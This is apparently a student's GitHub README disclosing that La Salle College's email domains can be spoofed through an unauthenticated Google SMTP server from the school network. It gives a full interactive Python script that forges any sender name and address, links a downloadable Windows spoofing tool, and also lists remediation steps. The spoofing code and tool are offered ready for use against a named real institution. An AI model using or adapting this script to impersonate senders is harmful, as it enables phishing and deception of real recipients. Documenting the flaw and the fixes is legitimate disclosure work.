 > [!CAUTION]
> If anyone uses the following materials to do things that are either illegal or violating school rules (e.g. Breaching School Security), Lee Perseus Robin will not pay ANY responsibility to that.
## What is the Vulnerability?
La Salle College's email system is currently at risk due to the use of a "No Authorization" SMTP server (aspmx.l.google.com).
With the school WiFi, anyone can easily write an email from any valid email address under [lsc.hk](http://lsc.hk/) or [lasalle.edu.hk](http://lasalle.edu.hk/) and send it to anyone with an email address.

## What can the Vulnerability acheive?
The primary risk associated with this vulnerability is email spoofing. 
Attackers can impersonate legitimate users by sending emails that seem to come from trusted addresses, such as [test@lsc.hk](mailto:test@lsc.hk). 
This could lead to various malicious activities, including phishing attacks or dissemination of false information.

## How to execute the Vulnerability?
Windows Version: [Sendemail (Only in LSC, beta).zip](https://github.com/user-attachments/files/17656203/Sendemail.Only.in.LSC.beta.zip)

Python Version (Demonstration only):
```
import smtplib
from email.mime.text import MIMEText

username = "test@lasalle.edu.hk"

fake_from = input("Enter the email address which you would like to pretent: ")

fake_name = input("Enter the name which you would like to pretent: ")

to_email = input("Enter the email address of the recipient: ")

to_name = input("Enter the name of the recipient: ")

subject = input("Subject of email: ")

# Replace '\n' with actual line breaks in HTML
content = input("Content of email (use '\\n' for line breaks): ").replace('\\n', '<br>')

# Create the HTML message
message = MIMEText(content, 'html')
message['From'] = f"{fake_name} <{fake_from}>"
message['To'] = f"{to_name} <{to_email}>"
message['Subject'] = subject

# Connect to the server and send the email
server = smtplib.SMTP("aspmx.l.google.com", 25)
server.starttls()
server.sendmail(username, to_email, message.as_string())
server.close()
```
## Who discovered the Vulnerability?
The flaw is found by Lee Perseus Robin (2G - 16). Following his initial findings, others contributed to refining the Python script to support line break.

## How to fix the Vulnerability?
To address and mitigate this vulnerability effectively, the following steps are recommended:

- Block Port 25
    - Implement restrictions to block access to Port 25 on all networks, preventing unauthorized email transmission.
- Fix SPF, DKIM, and DMARC Issues
    - Review and correct the DNS settings for the school's domains to ensure proper authentication of legitimate emails.
- Consult a Penetration Tester
    - For a comprehensive and long-term solution, engage a professional penetration tester to conduct a thorough security assessment of the college's systems.

## How to contact us to get more information about the Vulnerability?
For further inquiries or additional information regarding this vulnerability, please feel free to reach out to me at [perseus@lscstudy.us.kg](mailto:perseus@lscstudy.us.kg), [s23218@lsc.hk](mailto:s23218@lsc.hk) or perseusrobin@gmail.com.

### Examples:
![image](https://github.com/user-attachments/assets/228cc297-306e-48c1-a93f-76f8e8ba4c56)